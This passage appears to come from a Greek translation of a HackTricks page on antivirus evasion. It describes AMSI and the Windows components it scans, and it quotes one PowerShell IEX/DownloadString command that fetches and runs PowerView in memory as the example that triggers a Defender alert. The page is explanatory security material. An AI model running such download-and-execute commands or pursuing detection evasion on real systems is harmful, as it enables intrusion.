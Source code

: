 <figure><img src="../.gitbook/assets/freeze_demo_hacktricks.gif" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Η αποφυγή είναι απλώς ένα παιχνίδι γάτας και ποντικιού, αυτό που λειτουργεί σήμερα μπορεί να ανιχνευθεί αύριο, οπότε μην βασίζεστε μόνο σε ένα εργαλείο, αν είναι δυνατόν, προσπαθήστε να συνδυάσετε πολλές τεχνικές αποφυγής.
{% endhint %}

## AMSI (Διεπαφή Σάρωσης Κακόβουλου Λογισμικού)

Η AMSI δημιουργήθηκε για να αποτρέπει το "[fileless malware](https://en.wikipedia.org/wiki/Fileless\_malware)". Αρχικά, οι AV ήταν ικανοί να σαρώσουν **αρχεία στον δίσκο**, οπότε αν μπορούσατε με κάποιο τρόπο να εκτελέσετε payloads **άμεσα στη μνήμη**, ο AV δεν μπορούσε να κάνει τίποτα για να το αποτρέψει, καθώς δεν είχε αρκετή ορατότητα.

Η δυνατότητα AMSI είναι ενσωματωμένη σε αυτά τα στοιχεία των Windows.

* Έλεγχος Λογαριασμού Χρήστη, ή UAC (ανύψωση EXE, COM, MSI ή εγκατάστασης ActiveX)
* PowerShell (σενάρια, διαδραστική χρήση και δυναμική αξιολόγηση κώδικα)
* Windows Script Host (wscript.exe και cscript.exe)
* JavaScript και VBScript
* Μακροεντολές Office VBA

Επιτρέπει στις λύσεις antivirus να επιθεωρούν τη συμπεριφορά των σεναρίων εκθέτοντας το περιεχόμενο των σεναρίων με μορφή που είναι τόσο μη κρυπτογραφημένη όσο και μη αποκρυπτογραφημένη.

Η εκτέλεση `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` θα παράγει την ακόλουθη ειδοποίηση στο Windows Defender.

<figure><img src="../.gitbook/assets/image (1135).png" alt=""><figcaption></figcaption></figure>
